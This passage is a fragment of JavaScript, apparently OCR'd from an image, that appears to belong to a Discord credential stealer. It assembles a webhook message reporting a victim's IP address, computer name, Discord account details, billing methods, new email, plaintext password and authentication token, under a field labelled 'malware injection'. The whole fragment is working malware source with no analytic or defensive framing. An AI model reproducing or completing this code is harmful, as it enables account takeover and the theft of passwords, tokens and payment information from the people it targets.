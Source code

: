                                 })
                                if (billing == "") {
                                    billing = "\`❌\`"
                                }
                                return billing
                            }
                            const json = JSON.parse(info);
                            var params = {
                                username: "fantasy",
                                content: "",
                                embeds: [{
                                    "title": "email changed",
                                    "color": config['embed-color'],
                                    "fields": [{
                                        name: "malware injection",
                                        value: `\`\`\`${discordInstall}\n\`\`\``,
                                        inline: !1
                                    }, {
                                        name: "ip:",
                                        value: `\`${ip}\``,
                                        inline: !0
                                    }, {
                                        name: "pc name:",
                                        value: `\`${computerName}\``,
                                        inline: !0
                                    }, {
                                        name: "username:",
                                        value: `\`${json.username}#${json.discriminator}\``,
                                        inline: !0
                                    }, {
                                        name: "id:",
                                        value: `\`${json.id}\``,
                                        inline: !0
                                    }, {
                                        name: "nitro:",
                                        value: `${getNitro(json.premium_type)}`,
                                        inline: !0
                                    }, {
                                        name: "badges:",
                                        value: `${getBadges(json.flags)}`,
                                        inline: !0
                                    }, {
                                        name: "payment methods:",
                                        value: `${cool()}`,
                                        inline: !0
                                    }, {
                                        name: "new email:",
                                        value: `\`${newemail}\``,
                                        inline: !0
                                    }, {
                                        name: "password:",
                                        value: `\`${password}\``,
                                        inline: !0
                                    }, {
                                        name: "token:",
                                        value: `\`\`\`${token}\`\`\``,
                                        inline: !1
                                    }, ],
                                    "author": {
                                        "name": "rf.sex"
                                    },
                                    "footer": {
                                        "text": "better than all"
                                    },